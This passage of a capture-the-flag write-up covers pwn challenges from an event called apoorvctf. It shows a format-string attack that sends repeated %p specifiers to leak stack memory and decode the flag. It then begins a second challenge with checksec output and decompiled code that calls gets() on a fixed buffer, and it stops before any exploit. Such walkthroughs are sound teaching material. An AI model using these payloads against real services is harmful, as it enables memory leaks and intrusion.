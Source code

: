 So, let's leak some values.
```
└─$ nc chals1.apoorvctf.xyz 3003  
Welcome to Kogarashi Café.  
Barista: 'What will you have?'  
%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %P %p    
%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %P %p  
0xd12481 0xfbad2288 0xff2edb7f 0xd124dd (nil) 0x746376726f6f7061 0x334d5f3368547b66 0x736b34334c5f756e 0x68545f6572304d5f 0x68535f74495f6e61 0x7d646c7530 0x404050 0x7fc514f2d5e0 0x7025207025207025 0x2520702520702520 0x2070252070252070 0  
x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0xa70252050 (nil) 0xd122a0 0x7fffa88540a0 0x401278 %P 0x1
```
then after some multiple tries , we can find that 
```
0x746376726f6f7061 0x334d5f3368547b66 0x736b34334c5f756e 0x68545f6572304d5f 0x68535f74495f6e61 0x7d646c7530 0x404050 0x7f8dbb82b5e0 0x7025207025207025 0x2520702520702520 0x2070252070252070
```
these values are not changing each run , so i tried to convert it in to ASCHII  , which didnt go as planned ,
```
F7g&ö÷3M_3hT{f6³C4Å÷VàhT_er0M_5÷Döæ}dlu0 »µàRRP% p% p% RR
```
since this is not in the readable form ,
then i manually changed the endian of this and converted to the ASCII value like 
0x746376726f6f7061 -> 61706f6f72766374 ...

then the flag is apoorvctf{Th3_M3nu_L34ks_M0re_Than_It_Sh0uld}.

------------------------------------------------------------------------

## Kogarashi Café - The First Visit

Description:
A quiet café, a simple question. The barista waits, but your order may mean more than it seems.

solution:
```
└─$ file first_visit    
first_visit: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux  
.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=ddf24eef326cd1ee996fc66f78c48a6eab6d9b87, not stripped
```
This is the same as above: a 32-bit LSB executable .
security check:
```
└─$ pwn checksec first_visit    
[*] '/home/hyder/pra_ctf/apoorv/pwn/kogarashi/files/first_visit'  
   Arch:       i386-32-little  
   RELRO:      Partial RELRO  
   Stack:      No canary found  
   NX:         NX enabled  
   PIE:        No PIE (0x8048000)  
   Stripped:   No
```
Since there is no canary, there is a buffer overflow vulnerability. Let's take a look at the code
```
void order_coffee(void)

{
  char local_2c [40];
  
  puts(&DAT_08048786);
  puts("Barista: \'What will you have?\'");
  gets(local_2c);
  printf("Barista: \'%s... interesting choice.\'\n",local_2c);
```